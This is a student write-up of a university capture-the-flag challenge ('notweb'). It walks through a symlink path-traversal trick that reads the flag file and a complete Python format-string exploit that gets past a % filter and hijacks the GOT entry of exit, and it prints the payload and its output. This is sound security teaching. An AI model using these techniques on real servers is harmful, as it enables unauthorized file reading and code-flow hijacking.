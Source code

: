 # Write up: notweb (3-2)

## ymli (0016045)

## our task

Try to break the web server (?) and get the flag.


## think out of the box

Actually in this challenge, we can use the shell from other challenges to
create a symlink under `/tmp/` and use notweb to get it.

This idea is from Jeffxx's lecture about his DEFCON experience.

```
ls -l /tmp/tttt/test
lrwxrwxrwx 1 nphw1 nphw1 17 Nov 19 19:04 /tmp/tttt/test -> /home/notweb/flag

$ nc secprog.cs.nctu.edu.tw 10032
GET /../../tmp/tttt/test
HTTP/1.1 200 OK
Content-Length: 42
Content-type: text/plain

SECPROG{But_PWN_!s_e@sier_th@n_WEB_XDDDD}
```

At the first time I came up with this idea, I created the symlink under `/tmp/`
but failed to read it.

Surprisingly, that did work if we create the symlink under some directories in
`/tmp/`.

```
ls -l /tmp/gg
lrwxrwxrwx 1 bof6 bof6 17 Nov 27 21:41 /tmp/gg -> /home/notweb/flag
$ nc secprog.cs.nctu.edu.tw 10032
GET /../../tmp/gg
HTTP/1.1 404 Not Found
Server: notweb
Hint: Try to get this web server!
Content-type: text/html; charset=utf-8

Not found
```

## the real solution

After some analysis of the binary, we can find a format string vulnerability
in function `echo` which will print out the request string.

But we have a filter before the function `echo` all `%` symbols in url will
be filtered to `_`.

Here's a bug in the filter, if the string is long enough, the rest part won't
be modified, therefore, we can just send some garbage bytes first to obtain
more space.

## idea

We use a format string attack approach to accomplish the job.

The format string did two tasks:

1. change the variable `file` to the flag
2. hijack the GOT entry of `exit` to execute function `normal_file` again to 
read the flag.




## exploit

```
#!/usr/bin/python2

import struct
from socket import *
import telnetlib
import re

# try to run the program with gdbserver:5566 over ncat
# bind the programe port to 10032
# ncat -vc 'gdbserver localhost:5566 ./notweb' -kl 10032

# attach to the gdb server
# gdb-peda$ target remote localhost:5566

ip = 'secprog.cs.nctu.edu.tw'
#ip = 'localhost'
port = 10032
soc = socket(AF_INET, SOCK_STREAM)
soc.connect((ip,port))

# 0x080637e0 -> file (change to "flag")

# GOT hijacking, replace exit() with normal_file()
# when the program call exit(), it will make EIP point to normal_file() later

# 0x08048c8f -> normal_file
# 0x0804b03c -> exit

payload = "a"*112 + "GET /echo:\xe0\x37\x06\x08" + \
                         "\xe1\x37\x06\x08" + \
                         "\xe2\x37\x06\x08" +\
                         "\xe3\x37\x06\x08" +\
                         "\x3c\xb0\x04\x08" +\
                         "\x3d\xb0\x04\x08" +\
                         "\x3e\xb0\x04\x08" +\
                         "\x3f\xb0\x04\x08" +\
                         "%204c%15$hhn" + \
                         "%6c%16$hhn" + \
                         "%245c%17$hhn" + \
                         "%6c%18$hhn" + \
                         "%40c%19$hhn" + \
                         "%253c%20$hhn" + \
                         "%120c%21$hhn" + \
                         "%4c%22$hhn" + \
                         "\n"
print(len(payload))
soc.send(payload)
print("sent")



# get interactive shell
t = telnetlib.Telnet()
t.sock = soc
t.interact()
```


## capture the flag

```

$ ./notweb.py 
244
sent
HTTP/1.1 200 OK
Server: notweb
Hint: Try to get this web server!
Content-type: text/html; charset=utf-8

àáâã<=>?_204c_15$hhn_6c_16$hhn_245c_17$hhn_6c_18$hhn_40c_19$hhn_253c_20$hhn_120c_21$hhn_4c_22$hhn
àáâã<=>?                                                                                                                                                                                                           |     z                                                                                                                                                                                                                                                    ð                                            8                                                                                                                                                                                                                                                            (                                                                                                                         |
HTTP/1.1 200 OK
Content-Length: 42
Content-type: text/plain

SECPROG{But_PWN_!s_e@sier_th@n_WEB_XDDDD}
*** Connection closed by remote host ***
```

## lessons learned

1. Advanced skills of format string attack.

2. More ideas about symlinks.

3. GOT hijacking

4. Run the challenge over ncat and use gdb target remote to debug it.


```
# run the challenge over nat
$ ncat -vc 'gdbserver localhost:5566 ./notweb' -kl 10032

# attach to the gdb server
$ gdb -q ./notweb
gdb-peda$ target remote localhost:5566
```
